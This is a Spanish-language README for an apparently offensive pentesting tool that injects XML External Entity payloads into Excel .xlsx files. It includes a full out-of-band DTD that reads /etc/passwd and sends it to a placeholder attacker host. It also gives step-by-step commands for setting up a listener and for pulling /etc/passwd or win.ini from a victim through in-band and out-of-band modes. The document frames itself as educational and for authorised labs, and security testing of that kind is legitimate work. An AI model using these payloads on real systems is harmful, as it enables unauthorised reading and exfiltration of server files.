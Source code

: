 Inyector XXE para Archivos XLSX
===============================

Esta es una herramienta de línea de comandos escrita en Python para inyectar payloads de XXE (XML External Entity) en archivos `.xlsx`. Su propósito es facilitar la experimentación y la demostración de vulnerabilidades XXE en entornos controlados de pentesting y laboratorios de seguridad.

**ADVERTENCIA:** Esta herramienta está diseñada exclusivamente para fines educativos y para ser utilizada en sistemas donde se tenga autorización explícita. El uso no autorizado de esta herramienta contra sistemas ajenos es ilegal.

✨ Características
-----------------

-   **Dos Modos de Ataque:**

    -   `oob` (Out-of-Band): Ideal para detectar la vulnerabilidad y exfiltrar datos a un servidor externo.

    -   `inband`: Muestra el contenido de un archivo local directamente en una celda del archivo Excel.

-   **Flexibilidad en OOB:** Permite elegir en qué archivo XML interno del `.xlsx` se inyectará el payload (ej. `workbook.xml`, `sheet1.xml`, etc.).

-   **Respeto por el Contenido:** En el modo `inband`, el script modifica el archivo original de forma quirúrgica para preservar el resto del contenido, sobrescribiendo únicamente la celda A1.

-   **Interfaz Clara:** Mensajes de color y una ayuda detallada para un uso sencillo e intuitivo.

🚀 Instalación y Requisitos
---------------------------

Solo necesitas **Python 3**. No se requieren librerías externas.

1.  **Clona o descarga el script:**

    ```
    git clone [[URL_DEL_REPOSITORIO]](https://github.com/arthusu/xxe_injector_xlsx.git)
    cd xxe_injector_xlsx

    ```

    O simplemente guarda el archivo `xxe_injector.py` en tu máquina.

2.  **¡Listo!** Ya puedes usar el script.

🛠️ Uso
-------

La estructura básica del comando es la siguiente:

```
python3 xxe_injector.py -i <archivo_entrada.xlsx> -o <archivo_salida.xlsx> [opciones]

```

### Argumentos

| **Argumento** | **Descripción** | **Requerido** |
| --- | --- | --- |
| `-i`, `--input` | El archivo `.xlsx` original que se usará como base. | **Sí** |
| `-o`, `--output` | El nombre del nuevo archivo `.xlsx` que contendrá el payload. | **Sí** |
| `-m`, `--mode` | El modo de ataque. Opciones: `oob` (defecto) o `inband`. | No |
| `-H`, `--host` | Tu dirección IP o dominio donde escucharás las conexiones. | **Sí** (solo para modo `oob`) |
| `-f`, `--file` | La ruta absoluta al archivo que quieres leer en el sistema víctima (ej. `/etc/passwd`). | **Sí** (solo para modo `inband` o exfiltración `oob`) |
| `-t`, `--target` | [Solo modo `oob`] Elige el archivo XML interno a modificar usando un número (ver ayuda para la lista). | No (defecto: 1, `xl/workbook.xml`) |


💡 Ejemplos Prácticos
---------------------

### 1\. Detección Simple (Out-of-Band)

Este es el caso de uso más simple para confirmar si un sistema es vulnerable.

**Paso 1: Inicia un listener en tu máquina.**

```
# Escucha en el puerto 8000
python3 -m http.server 8000

```

**Paso 2: Ejecuta el script.**

```
python3 xxe_injector.py -i entrada.xlsx -o salida_oob.xlsx -H tu-ip:8000

```

Si al procesar `salida_oob.xlsx` recibes una conexión en tu listener pidiendo `/pwn.dtd`, ¡el sistema es vulnerable!

### 2\. Exfiltración de Archivos (Out-of-Band)

Para leer un archivo y enviar su contenido a tu servidor.

**Paso 1: Crea el archivo `exploit.dtd` en tu máquina.** Con el siguiente contenido:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % exfil "<!ENTITY &#37; send SYSTEM 'http://tu-ip:8000/?content=%file;'>">
%exfil;
%send;

```

*Reemplaza `/etc/passwd` por el archivo que quieras leer y `tu-ip:8000` por tu listener.*

**Paso 2: Inicia tu listener en la misma carpeta donde guardaste `exploit.dtd`.**

```
python3 -m http.server 8000

```

**Paso 3: Ejecuta el script.**

```
python3 xxe_injector.py -i entrada.xlsx -o salida_exfil_oob.xlsx -H tu-ip:8000 -f /etc/passwd

```

Cuando el sistema vulnerable procese el archivo, verás una petición en tu listener que contiene el contenido de `/etc/passwd` en la URL.

### 3\. Exfiltración de Archivos (In-Band)

Para que el contenido de un archivo aparezca directamente en la celda A1.

**Ejecuta el script:**

```
# Para un sistema Linux/macOS
python3 xxe_injector.py -i entrada.xlsx -o salida_inband.xlsx -m inband -f /etc/passwd

# Para un sistema Windows
python3 xxe_injector.py -i entrada.xlsx -o salida_inband.xlsx -m inband -f "c:/windows/win.ini"

```

Abre el archivo `salida_inband.xlsx` en una aplicación vulnerable. El contenido del archivo especificado debería aparecer en la celda A1.
